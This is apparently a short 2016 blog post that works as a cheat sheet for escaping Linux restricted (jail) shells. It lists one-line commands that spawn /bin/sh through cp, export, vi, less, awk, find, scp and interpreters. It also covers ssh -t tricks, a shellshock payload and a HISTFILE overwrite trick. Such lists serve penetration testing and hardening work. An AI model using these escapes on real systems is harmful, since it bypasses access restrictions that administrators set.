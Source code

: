 ```yaml
---
layout: post
title: "Breaking out of jail shells"
date: 2016-10-24
---
```

This is a quick post on breaking out of linux jail/restricted shells.

* Always run your reconnaissance!
  * Run **env** to list out exported environment variables.
  * **echo $SHELL** what shell are we in?
  * **echo $PATH** what is our path set to?
  * Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**
  * Can you just exploit a running process to escalate privileges and not need to escape out of your shell?
>
* Quick wins from jail
  * Can you run **cp**? Just copy a file into your path.
    * **`cp /bin/sh /a/dir/from/path; sh`**
  * Is \'/\' allowed?
    * Run **`/bin/sh`**
  * Can you use **export**?
    * **`export PATH=/bin:/usr/bin:$PATH`**
    * **`export SHELL=/bin/sh`**
  * Do you have access to commands that let you execute different system commands?
    * **ftp: `!/bin/sh`**
    * **gdb: `!/bin/sh`**
    * **more/less/man: `?!/bin/sh`**
    * **vi/vim: `:!/bin/sh`**
    * **scp: `scp -S /tmp/naughty.sh x y:`**
    * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
    * **find `find / -name something -exec /bin/sh \;`**
    * Don\'t forget about your favorite language!
      * **python: `python -c 'import os; os.system("/bin/bash")'`**
      * **perl: `perl exec "/bin/sh";`**
      * **ruby: `ruby exec "/bin/sh"`**
      * **lua: `lua os.execute('/bin/sh')`**
>
* Quick wins from outside jail
  * Just execute commands before your shell is loaded.
    * **`ssh user@10.10.10.10 -t "/bin/sh"`**
  * Don\'t start the rc profile
    * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
  * Try shellshock
    * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**
>
* Getting creative
  * Using **tee** to write a script.
    * **`echo 'evil code' | tee script.sh`**
  * History file
    * Set **HISTFILE** variable to a file you want to overwrite
    * Set **HISTSIZE** variable to **0** then immediately to **100**
    * Execute lines that should be written to your file
    * Log out and back in again.

Looking for more ways? [Google](http://bfy.tw/8Lq2)
